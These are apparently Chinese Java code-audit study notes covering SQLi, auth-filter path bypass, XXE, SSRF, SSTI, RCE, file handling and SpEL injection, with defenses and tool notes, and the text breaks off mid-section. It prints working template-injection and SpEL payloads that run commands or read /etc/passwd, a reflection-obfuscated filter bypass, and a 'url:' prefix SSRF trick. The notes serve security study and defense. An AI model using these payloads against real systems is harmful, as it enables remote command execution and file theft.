- | Sink类                                     | Sink方法       |
  | ------------------------------------------ | -------------- |
  | java/sql/Statement                         | execute        |
  | java/sql/Statement                         | executeQuery   |
  | java/sql/Statement                         | executeUpdate  |
  | org/springframework/jdbc/core/JdbcTemplate | update         |
  | org/springframework/jdbc/core/JdbcTemplate | execute        |
  | org/springframework/jdbc/core/JdbcTemplate | query          |
  | org/springframework/jdbc/core/JdbcTemplate | queryForStream |
  | org/springframework/jdbc/core/JdbcTemplate | queryForList   |
  | org/springframework/jdbc/core/JdbcTemplate | queryForMap    |
  | org/springframework/jdbc/core/JdbcTemplate | queryForObject |

- **Mybatis的两种传参方式**:

  - 在Mybatis下有两种传参方式，分别是${}以及#{}，其区别是，
  - 使用 `${}`的方式传参，mybatis是将传入的参数直接拼接到SQL语句上，
  - 二使用 `#{}`传参则是和JDBC一样转换为占位符来进行预编译

    ```java
    @Select("select * from users where username = #{username}")
    User findByUserName(@Param("username") String username);
    
    @Select("select * from users where username = '${username}'")
    List<User> findByUserNameVuln01(@Param("username") String username);
    ```

#### 漏洞挖掘示例：

- 做过php代码审计的师傅 在审sql的时候 往往是搜索一些关键字，如 select update insert order by like等关键字，那么在java中也是一样的，不过多了一个特殊字符 `$`
- 在php中 sql语句是直接写出来  但是在java中 很多框架是集成了数据库，因此很少会见到sql语句了。
  最常用的mybatis中

  - `#{}`告诉 MyBatis 创建一个预编译语句（PreparedStatement）参数，在 JDBC 中，这样的一个参数在 SQL 中会由一个“?”来标识，并被传递到一个新的预处理语句中，
  - `${}` 仅仅是纯粹的 string 替换，在动态 SQL 解析阶段将会进行变量替换，类似于直接替换字符串，会导致SQL注入产生。
- 全局搜索 查找 `${ `：从代码到入口

  - 推荐一个插件 `free mybatis tool`，可以从mapper文件追踪到接口类。（sql语句要么写在注解里面，要么写在mapper.xml文件里面。）
  - 
  - 
  - crtl + 鼠标（找到调用关系） 持续点击向上寻找 直到找到xxxController层
    - 
    - UserService.java的UserService类的select方法调用了该sql语句，再找哪个Controller调用该UserService类的select方法。
    - 
    - 
    - 一直找 然后到达 ResourceController.java文件
    - 然后再去找到这段的方法 看看有没有什么路径 以便于快速定位到web层，然后分析调用链，是否存在漏洞，有没有过滤之类的，能否绕过。或者直接sqlmap跑。

### 未授权：

在测试后台的时候，我经常喜欢删除cookie，来检测是否存在未授权
代码中 存在过滤器，但只是存在登录验证，并没有存在其他的验证(因为就这几行代码，不可能对全部功能做判断)

学过过滤器的同学 都知道，过滤器默认有三个方法 init dofilter destory

```jav
init 方法就是在初始化的时候 运行里面的代码
dofilter 是自己写的逻辑代码
destory 程序关闭时 运行代码
```

找dofilter方法。或者直接翻filter目录

```java
@WebInitParam配置多个InitParam，使某些页面不被拦截。
当我去访问这些资源文件或者登录页面 就不会被拦截

@WebFilter(filterName = "LogCostFilter", urlPatterns = {"/*"},
        initParams = {@WebInitParam(name = "ignoredUrl", value = ".css#.js#.jpg#.png#.gif#.ico"),
                      @WebInitParam(name = "filterPath",
                              value = "/user/login#/user/registerUser#/v2/api-docs")})
```

```java
    public void doFilter(ServletRequest request, ServletResponse response,
                         FilterChain chain) throws IOException, ServletException {
        HttpServletRequest servletRequest = (HttpServletRequest) request;
        HttpServletResponse servletResponse = (HttpServletResponse) response;
        String requestUrl = servletRequest.getRequestURI();
        //具体，比如：处理若用户未登录，则跳转到登录页
        Object userInfo = servletRequest.getSession().getAttribute("user");
        if(userInfo!=null) { //如果已登录，不阻止
            chain.doFilter(request, response);
            return;
        }
        if (requestUrl != null && (requestUrl.contains("/doc.html") ||
            requestUrl.contains("/register.html") || requestUrl.contains("/login.html"))) {
            chain.doFilter(request, response);
            return;
        }
        if (verify(ignoredList, requestUrl)) {
            chain.doFilter(servletRequest, response);
            return;
        }
        if (null != allowUrls && allowUrls.length > 0) {
            for (String url : allowUrls) {
                if (requestUrl.startsWith(url)) {
                    chain.doFilter(request, response);
                    return;
                }
            }
        }
        servletResponse.sendRedirect("/login.html");
    }
```

比如项目只存在上述代码的filter。第二个if，如果url里面包含（/doc.html，/register.html，/login.html）就放行请求。

那么我们可以使用url的相对路径，`xxxx/login.html/../user`来进行绕过。先登录 查看某个功能 再去抓包进行路径绕过。

**越权删除用户**

- 全局搜索delete 或者UserController 一般就会定位到相关代码

### 2. XXE：

#### 函数

java解析xml的方法有多种，比较常见的有四种：DOM、DOM4J、JDOM 和SAX。

通常parse方法返回void的，就是无回显的。

```java
//1. DocumentBuilder 原生、可回显
import javax.xml.parsers.DocumentBuilderFactory;
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
DocumentBuilder db = dbf.newDocumentBuilder();
StringReader sr = new StringReader(xml_con);
InputSource is = new InputSource(sr);
Document document = db.parse(is); 

//2. saxReader 第三方库
import org.dom4j.io.SAXReader;
SAXReader saxReader = new SAXReader();
Document document = saxReader.read(request.getInputStream());

//3. SAXBuilder 第三方库
import org.jdom2.input.SAXBuilder;
SAXBuilder builder = new SAXBuilder();  
Document document = builder.build(request.getInputStream());

//4. SAXParserFactory 原生、不可回显
import javax.xml.parsers.SAXParserFactory;
SAXParserFactory factory  = SAXParserFactory.newInstance(); 
SAXParser saxparser = factory.newSAXParser();
SAXHandler handler = new SAXHandler();  
saxparser.parse(request.getInputStream(), handler);

//还有其他整理如下：
import org.xml.sax.helpers.XMLReaderFactory;
XMLReader xmlReader = XMLReaderFactory.createXMLReader();
xmlReader.parse( new InputSource(new StringReader(xml_con)) );

import org.apache.commons.digester3.Digester;
Digester digester = new Digester();
digester.parse(new StringReader(xml_con)); 

import javax.xml.parsers.DocumentBuilderFactory;
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setXIncludeAware(true);   // 支持XInclude
dbf.setNamespaceAware(true);  // 支持XInclude
DocumentBuilder db = dbf.newDocumentBuilder();
StringReader sr = new StringReader(xml_con);
InputSource is = new InputSource(sr);
Document document = db.parse(is);  // parse xml

SAXParserFactory spf = SAXParserFactory.newInstance();
SAXParser saxParser = spf.newSAXParser();
XMLReader xmlReader = saxParser.getXMLReader();
xmlReader.parse( new InputSource(new StringReader(xml_con)) );  
```

| Sink类                                        | Sink方法              |
| --------------------------------------------- | --------------------- |
| org/jdom2/input/SAXBuilder                    | build                 |
| javax/xml/parsers/SAXParser                   | parse                 |
| javax/xml/transform/sax/SAXTransformerFactory | newTransformerHandler |
| javax/xml/validation/SchemaFactory            | newSchema             |
| javax/xml/transform/Transformer               | transform             |
| javax/xml/validation/Validator                | validate              |
| org/xml/sax/XMLReader                         | parse                 |

#### 示例

#### xxe的防御比较简单，禁用外部实体即可。

```java
//实例化解析类之后通常会支持着三个配置
obj.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
obj.setFeature("http://xml.org/sax/features/external-general-entities", false);
obj.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

### 3. SSRF

java发送http请求的方式还是比较多的，下面是原生的：

 ```java
 String url = request.getParameter("url");
 URL u = new URL(url);
 
 //1.URL，直接打开，可以跨协议
 InputStream inputStream = u.openStream();
 
 //2. URLConnection，使用这种方法发送请求可以跨协议
 URLConnection urlConnection = u.openConnection();
 //3. HttpURLConnection，进行类型转换之后，只允许http/https
 HttpURLConnection httpURLConnection = (HttpURLConnection)urlConnection;
 InputStream inputStream = urlConnection.getInputStream();
 
 //处理请求结果
 BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
 String inputLine;
 StringBuilder html = new StringBuilder();
 while ((inputLine = bufferedReader.readLine()) != null) {
   html.append(inputLine);
 }
 response.getWriter().println("html:" + html.toString());
 bufferedReader.close();
 
 //4. ImageIO，如果获取到的不是图片，会返回null，这个是需要盲打，还是直接不能利用呢？待补充
 BufferedImage img = ImageIO.read(u);
 
 
 #还有一部分第三方类库的：
 // Request漏洞示例
 String url = request.getParameter("url");
 return Request.Get(url).execute().returnContent().toString();//发起请求
 
 // OkHttpClient漏洞示例
 String url = request.getParameter("url");
 OkHttpClient client = new OkHttpClient();
 com.squareup.okhttp.Request ok_http = new com.squareup.okhttp.Request.Builder().url(url).build();
 client.newCall(ok_http).execute();  //发起请求
 
 //OkHttpClient漏洞示例
 String url = request.getParameter("url");
 CloseableHttpClient client = HttpClients.createDefault();
 HttpGet httpGet = new HttpGet(url);
 HttpResponse httpResponse = client.execute(httpGet); //发起请求
 ```

| Sink类 | Sink方法 |
| ------ | -------- |
|        |          |
|        |          |
|        |          |

#### 漏洞防御

通用方法，看web安全——ssrf

总结下来无非是这么几点：

1. 正确处理302跳转（在业务角度看，不能直接禁止302，而是对跳转的地址重新进行检查）
2. 限制协议只能为http/https，防止跨协议
3. 设置内网ip黑名单（正确判定内网ip、正确获取host）
4. 设置常见web端口白名单（防止端口扫描，可能业务受限比较大）

```java
private static int connectTime = 5 * 1000;

public static boolean checkSsrf(String url) {
  HttpURLConnection httpURLConnection;
  String finalUrl = url;
  try {
    do {
      if(!Pattern.matches("^https?://.*/.*$", finalUrl)) { //只允许http/https协议
        return false;
      }
      if(isInnerIp(url)) { //判断是否为内网ip
        return false;
      }

      httpURLConnection = (HttpURLConnection) new URL(finalUrl).openConnection();
      httpURLConnection.setInstanceFollowRedirects(false); //不跟随跳转
      httpURLConnection.setUseCaches(false); //不使用缓存
      httpURLConnection.setConnectTimeout(connectTime); //设置超时时间
      httpURLConnection.connect(); //send dns request

      int statusCode = httpURLConnection.getResponseCode();
      if (statusCode >= 300 && statusCode <=307 && statusCode != 304 && statusCode != 306) {
        String redirectedUrl = httpURLConnection.getHeaderField("Location");
        if (null == redirectedUrl)
          break;
        finalUrl = redirectedUrl; //获取到跳转之后的url，再次进行判断
      } else {
        break;
      }
    } while (httpURLConnection.getResponseCode() != HttpURLConnection.HTTP_OK);//如果没有返回200，继续对跳转后的链接进行检查
    httpURLConnection.disconnect();
  } catch (Exception e) {
    return true;
  }
  return true;
}

private static boolean isInnerIp(String url) throws URISyntaxException, UnknownHostException {
    URI uri = new URI(url);
    String host = uri.getHost(); //url转host
  	//这一步会发送dns请求，host转ip，各种进制也会转化为常见的x.x.x.x的格式
    InetAddress inetAddress = InetAddress.getByName(host); 
    String ip = inetAddress.getHostAddress();

    String blackSubnetlist[] = {"10.0.0.0/8", "172.16.0.0/12", "192.168.0.0/16", "127.0.0.0/8"}; //内网ip段
    for(String subnet : blackSubnetlist) {
      SubnetUtils subnetUtils = new SubnetUtils(subnet); //commons-net 3.6
      if(subnetUtils.getInfo().isInRange(ip)) {
        return true; //如果ip在内网段中，直接返回
      }
    }
    return false;
}
```


### 4. SSTI

#### Velocity

` Velocity.evaluate`

```java
@RequestMapping("/ssti/velocity")
public String velocity(@RequestParam(name = "content") String content) {
    Velocity.init();
    VelocityContext velocityContext = new VelocityContext();

    velocityContext.put("username", "seaii");

    StringWriter stringWriter = new StringWriter();
    Velocity.evaluate(velocityContext, stringWriter, "test", content);
    return stringWriter.toString();
}
```

利用方式：

`#set ($exp = "exp");$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("whoami")`

velocity到目前最新版本也没有提供沙盒或者防御方式，只能禁止或严格过滤用户输入进入**Velocity.evaluate**。

#### FreeMarker

```java
@RequestMapping("/ssti/freemarker")
public String freemarker() throws IOException, TemplateException {
    Configuration configuration = new Configuration(Configuration.VERSION_2_3_23);
    configuration.setClassForTemplateLoading(this.getClass(), "/templates");
    Template template = configuration.getTemplate("test.ftl");

    Map<String, Object> rootMap = new HashMap<String, Object>();
    rootMap.put("username", "passwd");
    StringWriter stringWriter = new StringWriter();
    template.process(rootMap, stringWriter);
    return stringWriter.toString();
}
```

freemarker与velocity的攻击方式不太一样，freemarker可利用的点在于模版语法本身，**直接渲染用户输入payload会被转码而失效**，所以**一般的利用场景为上传或者修改模版文件。**

命令执行1：

```
<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id") }
```

命令执行2：

```
<#assign ob="freemarker.template.utility.ObjectConstructor"?new()> 
<#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.lang.ProcessBuilder","ifconfig").start().getInputStream())) >        


<#list 1..10000 as t>
    <#assign line=br.readLine()!"null">
    <#if line=="null">
        <#break>
    </#if>
    ${line}
    ${"<br>"}
</#list>
```

文件读取：

```
<#assign ob="freemarker.template.utility.ObjectConstructor"?new()> 
<#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.io.FileInputStream","/etc/passwd"))) >        


<#list 1..10000 as t>
    <#assign line=br.readLine()!"null">
    <#if line=="null">
        <#break>
    </#if>
    ${line?html}
    ${"<br>"}
</#list>
```

**将上面的payload写入到模版文件保存，然后让freemarker加载即可。**

**FreeMarkerf防御**

最简单的方式是使用**TemplateClassResolver**，文档在这：

https://freemarker.apache.org/docs/api/freemarker/core/TemplateClassResolver.html

[](https://camo.githubusercontent.com/af2000685418e3793e4a2680bd0865df0119a45d886e9ecbfceae0398fd651ff/68747470733a2f2f6d64706963747572652e6f73732d636e2d6265696a696e672e616c6979756e63732e636f6d2f32303139313231303233303932312e706e67)

可根据实际需求选择这两种方式，代码实现如下：

```
configuration.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
```

但这并不是一劳永逸的防御方式，如果配置不当，依然会造成安全问题：

[Freemarker模板注入 Bypass](https://xz.aliyun.com/t/4846)

### 5. RCE

| Sink类                   | Sink方法 |
| ------------------------ | -------- |
| java/lang/Runtime        | exec     |
| java/lang/ProcessBuilder | start    |
| groovy/lang/GroovyShell  | evaluate |

java的`Runtime.getRuntime.exec`和`ProcessBuilder.start`，都是直接启动传入参数对应的进程（并不是shell命令）。以curl为例，php的`system`会启动系统shell，然后通过shell来启动curl进程，这个过程中，如果传入的命令带有shell能解析的语法，就会首先解析。

所以，如果只是命令执行的部分参数可控，想在java中通过`;、|、&`等实现命令注入，是行不通的。当然不排除程序本身存在漏洞，只需传入参数即可造成漏洞。

如果命令以字符串形式传入`Runtime.getRuntime.exec`，程序会将传入的命令用空格来拆分。

```
Process process = runtime.exec("ping -c 1 " + ip);
//这种传入 127.0.0.1 | id，是无法正常执行的
第一个参数才会被当作命令，其他都是当作命令的参数
```

如果执行命令使用的是`ProcessBuilder.start`，那么只能执行无参数的命令。因为`ProcessBuilder`不支持以字符串形式传入命令，只能拆分成List或者数组的形式传入，才能执行。

如果参数完全可控，可自行启动shell，然后在执行命令。

```
Process process = runtime.exec("sh -c whoami");
```

命令执行漏洞的防御需要结合实际场景，没有很通用的防御手段。

1. 尽量避免调用shell来执行命令。
2. 如果是拼接参数来执行命令，对参数进行严格过滤，比如只允许字母数字。

### 6. XSS


### 7. 文件操作

#### 文件上传

`commons-fileupload, commons-fileupload, request.getParts`

```java
private static final String UPLOAD_PATH = "/tmp/upload";
private boolean uploadWithFileUpload(HttpServletRequest request) {
  if(!ServletFileUpload.isMultipartContent(request)) {
    //response.getWriter().print("Error: 表单必须包含 enctype=multipart/form-data");
    return false;
  }
	/*省略部分初始化代码*/
  try {
    List<FileItem> fileItems = servletFileUpload.parseRequest(request);
    if(fileItems != null && fileItems.size() > 0) {
      for(FileItem fileItem : fileItems) {
        String fileName = new File(fileItem.getName()).getName(); //获取文件名
        String filePath = UPLOAD_PATH + File.separator + fileName; //上传路径
        File storeFile = new File(filePath);
        fileItem.write(storeFile); //写文件
      }
      //response.getWriter().println("upload success");
    }
  } catch (Exception e) {
    //response.getWriter().print(e.getMessage());
    return false;
  }
  return true;
}
```

标准的任意文件上传代码。现在的web框架会将上传的文件放在web访问不到的位置存储，这样会一定程度上缓解上传漏洞，但如果在展示文件时处理不当，就会导致任意文件读取或下载。

servlet3之后，可以不使用commons-fileupload、commons-fileupload这两个jar包来处理文件上传，转而使用`request.getParts()`获取上传文件。此外，servlet3还支持以注解的形式定义一些上传的属性。


```java
private boolean uploadWithAnnotation(HttpServletRequest request, HttpServletResponse response) throws IOException, ServletException {
    Part part = request.getPart("fileName");
    if(part == null) {
      return false;
    }
    String filename = UPLOAD_PATH + File.separator + part.getSubmittedFileName();
    part.write(filename);
    part.delete();
    return true;
}
```

```
private boolean uploadWithAnnotation(HttpServletRequest request, HttpServletResponse response) throws IOException, ServletException {
    Part part = request.getPart("fileName");
    if(part == null) {
      return false;
    }
    String filename = UPLOAD_PATH + File.separator + part.getSubmittedFileName();
    part.write(filename);
    part.delete();
    return true;
}
```

可以看到这种方法代码比较简洁，需要注意的是要在类前面加`@MultipartConfig`这个注解，否则会报错。

#### 文件操作（下载/读取/删除）

这几个操作比较类似，都是对文件的操作。

java的文件读取一般有两种方法，一种是基于InputStream，另一种是基于FileReader。

### 读取

```
//InputStream
File file = new File(filename);
InputStream inputStream = new FileInputStream(file);
while(-1 != (len = inputStream.read())) {
  	outputStream.write(len);
}
//FileReader
String fileContent = "";
FileReader fileReader = new FileReader(filename);
BufferedReader bufferedReader = new BufferedReader(fileReader);
String line = "";
while (null != (line = bufferedReader.readLine())) {
		fileContent += (line + "\n");
}
```

**下载**

读写操作都有的情况下，用流比较方便。

```
//stream
String filename = request.getParameter("filename");
File file = new File(filename);

response.reset();
response.addHeader("Content-Disposition", "attachment;filename=" + new String(filename.getBytes("utf-8")));
response.addHeader("Content-Length", "" + file.length());
response.setContentType("application/octet-stream; charset=utf-8");

InputStream inputStream = new FileInputStream(file);
OutputStream outputStream = new BufferedOutputStream(response.getOutputStream());
int len;
while(-1 != (len = inputStream.read())) {
  outputStream.write(len);
}

inputStream.close();
outputStream.close();
```

**删除**

```
String filename = request.getParameter("filename");
File file = new File(filename);
if(file != null && file.exists() && file.delete()) {
  	response.getWriter().println("delete success");
} else {
  	response.getWriter().println("delete failed");
}
```

**防御**

防御的核心在于对传入的文件名进行正确的过滤，防止跨目录。

```
private boolean checkFilename(String filename) {
    filename = filename.replace("\\", "/"); //消除平台差异
  	//将文件操作限定在指定目录中
  	File file = new File(filename);
    if(file == null || !file.exists() || file.getCanonicalFile().getParent().equals(new File(DOWNLOAD_PATH).getCanonicalPath())) { //检测上级目录是否为指定目录
      return false;
    }
  	//检测文件名中是否有敏感字符
    List<String> blackList = Arrays.asList("./", "../");
    for(String badChar : blackList) {
      if(filename.contains(badChar)) {
        return false;
      }
    }
  	//对文件后缀名设置白名单
    List<String> whiteExt = Arrays.asList("png", "jpg", "gif", "jpeg", "doc");
    String fileExt = filename.substring(filename.lastIndexOf(".") + 1).toLowerCase();
    if(!whiteExt.contains(fileExt)) {
      return false;
    }
    return true;
}
```

#### 文件写入

```
//FileWriter
FileWriter fileWriter = new FileWriter(filename);
BufferedWriter bufferedWriter = new BufferedWriter(fileWriter);
bufferedWriter.write(fileContent);
bufferedWriter.close();
```

**防御**

文件写入与上述三个操作略有不同，在防御时需要对写入的内容进行过滤。

```
private boolean checkFilecontent(String fileContent) {
    List<String> blackContents = Arrays.asList("<%@page", "<%!");
    for(String blackContent : blackContents) {
      if(fileContent.contains(blackContent)) {
        return false;
      }
    }
    return true;
}
```

在写入时最好将标签进行htmlencode

```
String fileContent = request.getParameter("content");
fileContent = ESAPI.encoder().encodeForHTML(fileContent);
```

### 8. 表达式注入

#### 0x01漏洞挖掘

##### **spel**

spel表达式有三种用法：

1. 注解

    ```
    @value("#{表达式}")
    public String arg;
    ```

    这种一般是写死在代码中的，不是关注的重点。

2. xml

    ```
    <bean id="Bean1" class="com.test.xxx">
    	<property name="arg" value="#{表达式}">
    </bean>
    ```

    这种情况通常也是写死在代码中的，但是也有已知的利用场景，就是利用反序列化让程序加载我们实现构造好的恶意xml文件，如jackson的CVE-2017-17485、weblogic的CVE-2019-2725等。

3. 在代码中处理外部传入的表达式

    这部分是关注的重点。`SpelExpressionParser`

    ```
    @RequestMapping("/spel")
    public String spel(@RequestParam(name = "spel") String spel) {
        ExpressionParser expressionParser = new SpelExpressionParser();
        Expression expression = expressionParser.parseExpression(spel);
        Object object = expression.getValue();
        return object.toString();
    }
    ```

漏洞可以利用的前置条件有三个：

1. 传入的表达式 未过滤
2. 表达式解析之后调用了**getValue/setValue**方法
3. 使用**StandardEvaluationContext**（默认）作为上下文对象

**spel表达式功能非常强大，在漏洞利用方面主要使用这几个功能：**

- 使用T(Type)表示Type类的实例,Type为全限定名称,如T(com.test.Bean1)。但是java.lang例外,该包下的类可以不指定包名。得到类实例后会访问类静态方法与字段。

    ```
    T(java.lang.Runtime).getRuntime().exec("whoami")
    ```

- 直接通过java语法实例化对象、调用方法

    ```
    new ProcessBuilder("whoami").start()
    
    //可以利用反射来绕过一些过滤
    #{''.getClass().forName('java.la'+'ng.Ru'+'ntime').getMethod('ex'+'ec',''.getClass()).invoke(''.getClass().forName('java.la'+'ng.Ru'+'ntime').getMethod('getRu'+'ntime').invoke(null),'calc')}
    ```

##### **jexl**

关于jexl，比较有代表性的就是前段时间Nexus的rce，[Nexus Repository Manager 3 RCE 分析 -【CVE-2019-7238】](https://xz.aliyun.com/t/4136)文章在这，不再赘述。

**其它**

还有其它种类的表达式，如EL，不会轻易造成安全问题，暂时略过；OGNL表达式会在struts2相关的漏洞中详细说明。

#### 0x02漏洞防御

1. 最简单的方式，使用**SimpleEvaluationContext**作为上下文对象。

    ```
    @RequestMapping("/spel")
    public String spel(@RequestParam(name = "spel") String spel) {
        ExpressionParser expressionParser = new SpelExpressionParser();
        Expression expression = expressionParser.parseExpression(spel);
      	
      	//SimpleEvaluationContext减少了一部分功能，并在权限控制上进一步细化
      	//可以配置让spel表达式只能访问指定对象
      	Category category = new Category();
        EvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().withRootObject(category).build();
      
        Object object = expression.getValue();
        return object.toString();
    }
    ```

2. 如果SimpleEvaluationContext不能满足需求，就需要对输入进行严格的过滤。

## 动态/静态审计工具

### 知识基础

### AST

AST（Application Security Test，应用安全测试）工具是应用程序软件安全实践的支柱之一。

#### SAST

SAST（静态应用安全测试）是指不运行被测程序本身，仅通过分析或者检查源程序的语法、结构、过程、接口等来检查程序是否存在安全漏洞。分析是在代码的静态视图上运行的。

**SAST的优点：**广泛的编程语言支持；检出率较高；可以定位到代码行。

**SAST的缺点：**准确性差：优秀SAST产品的误报率也在53%以上*；无法看到执行流；通常需要一些定制或调参；不适用于生产阶段的系统；通常运行很慢。

尽管SAST有时弊病百出，比如严重依赖规则、误报漏报率太高、特定漏洞无法检测等问题。但SAST的发展从根本上推动了安全漏洞的发展，弥补了DAST的不足，促进了IAST的落地。代码审计是SAST，SAST不只是代码审计。

#### DAST

与SAST相反，DAST（Dynamic Application Security Testing，动态应用程序安全测试）对应用程序进行**黑盒分析**，这意味着它们不能访问代码或实现细节。DAST只检查系统对潜在漏洞测试的请求和响应。换言之，DAST是外部的漏洞扫描程序。

**DAST的优点：**独立于应用程序的技术和平台，无需代码细节；执行相对较快；误报率较低。

**DAST的缺点：**检出率低：优秀的DAST产品检出率也只有18%*；无法定位到代码行；使用门槛高，报告通常需要安全专家解读。

#### IAST

IAST（Interactive Application Security Testing，交互式应用程序安全测试）结合了SAST和DAST的优点。**IAST可以像SAST一样看到源代码，也可以像DAST一样看到应用程序运行时的执行流。**

**IAST的优点：**检出率较高；误报率较低；可以在研发测试和生产环境中使用；实时产生结果；可以持续检测，对DevOps支持度更高；即插即用，无需配置或调参；可以与CI平台集成，创建相互连接的工作流。

**IAST的缺点：**需要特定的语言支持。我们可以看到，与SAST和DAST类产品相比，IAST类产品拥有明显的优势。但IAST作为近年来才诞生的热点，其发展还远没有SAST和DAST类产品成熟。因此我们认为如果预算允许，以上这三类应用安全测试产品应该在机构中同时应用。如果机构只拥有一款产品的预算，IAST是最合适的选择。因为IAST不仅拥有安全测试上的能力优势，也更容易与DevOps紧密结合，帮助机构在不降低发布效率的前提下完成安全测试。

### DependencyCheck

[https://github.com/jeremylong/DependencyCheck](https://github.com/jeremylong/DependencyCheck)

> dependency是一种软件组成分析（SCA）工具，试图检测项目依赖项中包含的公开披露的漏洞。
>
> 它通过确定是否有针对给定依赖性的通用平台枚举（CPE）标识符来做到这一点。如果发现，它将生成链接到关联CVE条目的报告。
>
> 就是扫描依赖项版本，如果项目使用了有漏洞的依赖项版本，那么就会关联对应的cve链接。
>
> http://www.mianhuage.com/913.html

```shell
dependency-check.bat -s C:\Users\Desktop\jsherp\pom.xml 通过命令行下载数据库会出现问题。
解决方法：https://blog.csdn.net/xxbaike/article/details/107949286

直接使用插件，也是一样的问题，一样的处理方式。
<dependency>
    <groupId>org.owasp</groupId>
    <artifactId>dependency-check-maven</artifactId>
    <version>7.1.0</version>
</dependency>

<plugin>
    <groupId>org.owasp</groupId>
    <artifactId>dependency-check-maven</artifactId>
    <version>7.1.0</version>
</plugin>

```


可以发现存在非常多的漏洞，还包括前端，js的漏洞，可以通过命令排除这些漏洞。

### [洞态IAST](https://github.com/HXSecurity/DongTai/blob/main/README-zh.md)

> https://cloud.tencent.com/developer/article/1876191，
>
> DongTai是一款开源的被动式交互式安全测试(IAST)产品，通过动态hook和污点跟踪算法等实现**通用漏洞检测**、**多请求关联漏洞检测(包括但不限于越权漏洞、未授权访问)**、**第三方组件漏洞检测**等，目前支持**Java、Python**两种语言的应用漏洞检测。
>
> 文档：https://doc.dongtai.io/

**docker安装洞态服务端**

```bash
下載洞态IAST1.14版本  不要直接git clone
cd DongTai
chmod u+x build_with_docker_compose.sh
./build_with_docker_compose.sh
```

docker部署好洞态IAST之后。使用admin，admin登陆网页。

本机启动java项目。

- 在网页上下载agent，agent下载时候就绑定了服务器的ip，这样他们才能通信，然后我们启动我们的java项目，并添加agent到项目启动中，agent收集信息然后发给服务器。
- agent linux和windows都可以用，也就是可以在windows或linux下启动项目
- `java -Dfile.encoding=UTF-8 -jar -javaagent:"dongtai-agent.jar" xzs-3.8.0.jar --server.port=9999 --server.address=0.0.0.0`

我们就正常访问我们的项目网站，洞态IAST就会检查我们的访问了。也可也设置好ip和cookie，让IAST自动测试。**目前没检测出来漏洞。**

试试洞态的idea插件https://articles.zsxq.com/id_oxwc30zrqdf6.html

### Xcheck Java

### CODEQL

## 黑盒测试

平时没法用扫描器，自己搭建环境就可以随便用了

### XRAY

xary是一款被动式的扫描器，没法处理js渲染的页面，所以xray+爬虫是很好的搭配。

xray没提供从文件里面批量扫描url的功能，所以可以写个python脚本，循环运行xray。

#### xray代理扫描

像burpsuite一样，给浏览器配置证书，然后设置代理为xray提供的端口，这样一边浏览网页，xray就可以一边扫描了。

#### Xary+awvs

利用awvs的爬虫功能，爬到url就交给xray扫描

#### xray+crwalergo

爬虫+xray

## java的一些trick

### 利用 `url：`前缀来绕过url前缀检查

- Java里如果对URL(不仅限与http)进行检查，我们可以通过增加“url:”前缀来尝试绕过：`new URL("url:hxxp://example.com");`

  ```
  package test;
  
  import java.io.BufferedReader;
  import java.io.InputStreamReader;
  import java.net.URL;
  import java.util.regex.Matcher;
  import java.util.regex.Pattern;
  
  public class Ssrf_1 {
      public static void main(String[] args) {
          String tmp = "url:file:///C:\\Users\\xxx\\flag.txt";
          tmp = tmp.trim().toLowerCase();
          Pattern pattern = Pattern.compile("^[a-z]+:");
          Matcher matcher = pattern.matcher(tmp);
          if (!matcher.find() || matcher.group().startsWith("file")) {
              System.out.println("hack!");
          }
  
          String urlContent = "";
          try {
              final URL url = new URL(tmp);
              final BufferedReader in = new BufferedReader(new
                      InputStreamReader(url.openStream()));
              String inputLine = "";
              while ((inputLine = in.readLine()) != null) {
                  urlContent = urlContent + inputLine + "\n";
              }
              in.close();
          }
          catch (Exception e) {
              System.out.println(e.getMessage());
          }
          System.out.println(urlContent);
      }
  }
  
  ```
- 跟着URL类的构造函数一直调试就行。

  ```java
  if (spec.regionMatches(true, start, "url:", 0, 4)) {
  	start += 4;
  }
  ```

## **使用Code Search来挖掘开源项目漏洞**

> 　https://afkl.notion.site/Code-Search-c1dfeb17d5e84f67a3b0c0bf201d7d59

github提供了代码搜索服务，可以用来搜索github上的代码

 [cs.github.com](http://cs.github.com/) 


如上图所见，新版的代码搜索服务除了language 或者 path 等原本就有的搜索标签，还添加了逻辑关键字 OR 或者 NOT 来处理复杂的筛选条件，最最重量级的是支持通过正则搜索代码。

使用正则审计代码

- 想要通过正则来搜索到有漏洞的代码，需要我们对漏洞模式有很深的了解。我们需要知道什么样的代码会有什么样的洞，才能写出对应的正则来搜素代码。

NGINX目录穿越：

这算是一个代码及其固定的一个洞了，简单来说就是存在下面的代码时：

```
location /i {
    alias /data/w3/images/;
}
```

我们只需要访问`/i../something`便会导致其拼接为 `/data/w3/images/../something`的路径，导致目录穿越。

我们可以尝试搜素开源项目中的 `docker` 或者其他配置来寻找漏洞，这里我们可以简单的写出正则加以匹配。

```
/location (\/[\w\d\/]*)(\/[\w\d]+?) \{[\w\s]+alias [\w\d\s\/]+\/;/ NOT path:*.md

# 匹配location
[ location  ]

# 匹配location后的路由，路由最后没有`/`
[ (\/[\w\d\/]*)(\/[\w\d]+?) ]

# 匹配`{`
[ \{[\w\s]+ ]

# 匹配alias及之后的路由，路由最后有`/`
[ alias [\w\d\s\/]+\/; ]
```


可以看到我们确实搜素出来多个个存在目录穿越的配置文件。但遗憾的是，这些搜素出来的目录穿越并不能到达任意目录，因为`nginx`对`../`的数量有限制，不能超过当前路由层数。并且这些搜素出来的项目使用的人并不多，大多数只有一两颗`STAR`。所以为危害不算太大。

SQL注入：

- 我们来尝试换一种漏洞，用正则来匹配一段存在`SQL`注入的`golang`代码。

- 在`ORM`大行其道的情况下，`SQL`注入已经越来越少见了。但这不代表没有，在业务及其复杂的环境下，开发者依然需要使用原始的`SQL`语句。或许在这种情况下就及其可能存在动态拼接字符串的情况，就有可能存在`SQL`注入。

- 那么我们就可以一种思路：使用正则来匹配一段`SQL`语句，并且其中存在类似于`%s`，或者使用`+`拼接字符串的部分。

    ```
